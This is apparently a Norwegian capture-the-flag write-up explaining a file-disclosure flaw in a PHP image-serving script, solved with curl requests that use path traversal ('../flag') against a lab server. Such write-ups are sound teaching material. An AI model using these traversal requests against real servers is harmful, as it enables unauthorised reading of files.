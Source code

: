 ### Løsning

Trykker vi på et av bildene kommer vi til et php-script som serverer bilder. Sårbarheten ligger i at den gir oss alle filer vi ber om og begrenser seg ikke til kun bilder. Derfor prøver vi å hente `flag.txt` eller `flag`:

```bash
curl http://10.212.138.23:20147/show.php?file=flag
```

Gir oss: `Keep looking.. The real flag must be in a file some place on this server..`

Derfor skjønner vi at filen vi leter etter heter flag, men at den ligger et annet sted. Leter vi i mappene over finner vi flagget:

```bash
curl http://10.212.138.23:20147/show.php?file=../flag
```

<details><summary>Flagg</summary></details>


